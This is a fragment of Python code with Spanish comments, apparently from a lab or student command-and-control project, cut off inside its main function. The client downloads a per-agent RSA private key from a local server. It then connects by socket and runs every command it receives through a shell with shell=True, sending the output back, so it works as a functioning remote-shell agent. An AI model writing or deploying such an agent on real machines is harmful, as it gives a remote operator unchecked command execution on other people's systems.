     server_url = f'http://127.0.0.1:5000/download_private_key/{agent_id}'
    
    # Realizar la solicitud GET para obtener el archivo .pem
    response = requests.get(server_url)
    
    if response.status_code == 200:
        # Guardar la clave privada en un archivo en el sistema del cliente
        with open('rsa_private.pem', 'wb') as f:
            f.write(response.content)
        print("Clave privada descargada con éxito.")
    else:
        print(f"Error al descargar la clave privada: {response.text}")

    # Función para conectar el agente al servidor de sockets
def connect_to_server():
    server_host = '127.0.0.1'
    server_port = 5001  

    agent_id = get_agent_id()  # Obtener el ID antes de conectarse
    if agent_id is None:
        print("Error: No se encontró el ID del agente. Regístrate primero.")
        return  

    try:
        agent_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        agent_socket.connect((server_host, server_port))
        print(f"Agente {agent_id} conectado al servidor.")

        # Enviar el agent_id al servidor al conectar
        agent_socket.send(str(agent_id).encode('utf-8'))

        while True:
            command = agent_socket.recv(1024).decode('utf-8')
            print(command)
            if command.lower() == "exit":
                break
            if command:
                result = subprocess.run(command, shell=True, capture_output=True, text=True)
                output = result.stdout if result.stdout else result.stderr
                agent_socket.send(output.encode('utf-8'))
        agent_socket.close()
    except Exception as e:
        print(f"Error al conectar al servidor: {e}")


# Función principal del cliente
def main():
   